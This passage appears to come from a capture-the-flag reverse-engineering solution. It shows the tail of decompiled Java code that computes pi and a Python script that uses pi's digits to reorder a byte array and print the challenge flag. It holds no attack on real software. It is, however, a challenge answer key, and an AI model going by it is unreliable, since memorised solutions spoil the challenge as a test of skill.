            v2_1 = class_a.func(new BigDecimal("2").subtract(class_a.func(new BigDecimal(4).subtract(v2_1.multiply(v2_1, v6_1), v6_1), v6_1)), v6_1);
            v4_2 = new BigDecimal("2").multiply(v4_2, v5_1);
            v10 = new BigDecimal("0.5").multiply(v2_1.multiply(v4_2, v5_1), v5_1);
            if (v10.compareTo(v3_1) == 0) {
                break;
            }
            ++v9;
            v3_1 = v10;
        }
        String v2_2 = v10.toString().replace(".", "");
       System.out.println(v2_2);
    }
}
ma=[0x73, 0x6F, 43, 0x72, 0x74, 45, 0x30, 36, 84, 98, 89, 36, 38, 66, 38, 43, 84, 0x79, 50, 101, 101, 43, 100, 87, 69, 0x6F, 51, 66, 89, 49, 69, 51, 101, 51, 53, 0x74, 45, 98, 98, 0x72, 50, 36, 98, 50, 85, 85, 85, 107, 66, 36, 53, 51, 0x6F, 0x72, 89, 89, 66, 50, 33, 66, 0x5F, 66, 101, 0x79, 0x5F, 0x40, 33, 66, 50, 0x40, 85, 85, 45, 43, 36, 50, 0x74, 0x30, 85, 0x73, 0x5F, 0x40, 49, 0x72, 50, 101, 101, 51, 51, 43, 53, 51, 53, 51, 85, 50, 0x40, 0x79, 53, 36, 0x40, 69, 89, 98, 45, 0x6F, 101, 36, 97, 66, 100, 0x30, 0x73, 97, 0x30, 36, 0x6F, 101, 50, 0x5F, 49, 0x30, 0x40, 89, 0x74, 85, 0x30, 85, 0x73, 89, 43, 89, 97, 0x30, 89, 0x72, 97, 100, 38, 50, 0x74, 51, 98, 0x75, 0x5F, 50, 0x74, 0x73, 0x6F, 84, 98, 89, 69, 0x6F, 100, 0x30, 0x6F, 98, 89, 0x72, 0x40, 50, 36, 66, 89, 101, 0x72, 51, 84, 51, 50, 36, 38, 0x40, 0x30, 53, 51, 0x30, 49, 97, 0x74, 89, 101, 85, 97, 66, 84, 97, 45, 43, 100, 89, 45, 0x30, 0x73, 0x30, 0x40, 97, 100, 98, 51, 100, 0x6F, 0x73, 50, 53, 101, 66, 101, 0x6F, 0x75, 50, 45, 0x5F, 51, 82, 50, 89, 87, 101, 50, 89, 0x30, 89, 101, 43, 89, 36, 38, 61, 101, 0x40, 84, 89, 0x5F, 66, 0x74, 49, 0x40, 87, 97, 43, 0x5F, 0x73, 43, 0x30, 89, 45, 84, 89, 33, 89, 107, 53, 85, 0x30, 98, 98, 0x5F, 50, 107, 66, 101, 0x6F, 51, 97, 33, 66, 97, 0x75, 51, 0x74, 51, 97, 0x40, 89, 107, 98, 51, 69, 0x40, 73, 0x5F, 0x30, 85, 0x74, 0x30, 97]
a='314159265358979323846264338327950288419716939937510582097494459230781640628620899862803482534211706798214808651328230664709384460955058223172535940812848111745028410270193852110555964462294895493038196442881097566593344612847564823378678316527120190914564856692346034861045432664821339360726024914127372458700660631558817488152092096282925409171536436789259036'
b=[]
for i in range(0,len(a),2):
    b.append(int(a[i:i+2]))
c=''
for i in b:
    c+=bin(i)[2:].rjust(8,'0')
d=[]
for i in range(0,len(c),5):
    d.append(int('1'+c[i:i+5],2)-0x20)
print(len(d))
print(len(c))
print(len(ma))
flag=[]
for i in range(32):
    flag.append(0xff)
for i in range(len(ma)):
    flag[d[i]]=ma[i]
print(flag)
flag1=''
for i in flag:
    flag1+=chr(i)
print("flag{"+flag1+"}")
```